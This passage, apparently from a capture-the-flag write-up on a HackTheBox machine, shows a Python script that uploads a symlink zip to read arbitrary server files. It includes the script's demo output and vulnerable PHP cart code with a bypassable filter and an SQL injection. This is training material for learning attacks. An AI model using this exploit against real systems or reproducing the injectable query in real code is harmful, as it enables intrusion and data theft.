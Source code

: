 ```python
data = {
    "submit": ""
}
url='http://zipping.htb/upload.php'
files={'zipFile':('zipslip.zip', open('zipslip.zip','rb'),'application/zip')}
print('Sending payload!')
r = requests.post(url, files=files, data=data, verify=False)
try:
    uploadedurl=r.text.split('following path:</p><a href="')[1].split('">')[0]
    url='http://zipping.htb/'+uploadedurl
except:
    print('No upload url found!')

if 'uploads' in url:
    r=requests.get(url, verify=False)
    print('Writing to \'out.txt\'...')
    with open('out.txt','w') as f:
        f.write(r.text)
print('Cleaning up...')
os.system('rm zipslip.zip')
```

Now I can demo the exploit as so:

```
$ python3 zislip-exploiter.py
Made by sealldeveloper
Making symlink...
Making zip...
  adding: zipslip.pdf (stored 0%)
Removing symlink...
Crafting payload for uploader...
Sending payload!
Writing to 'out.txt'...
Cleaning up...
```

and the file data is written to `out.txt` in the same folder!

After a few attempts I found the following file path for the website: `/var/www/html/` and one specific file of interest.

Reading `/var/www/html/shop/cart.php` has a vulnerability.

```php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
```
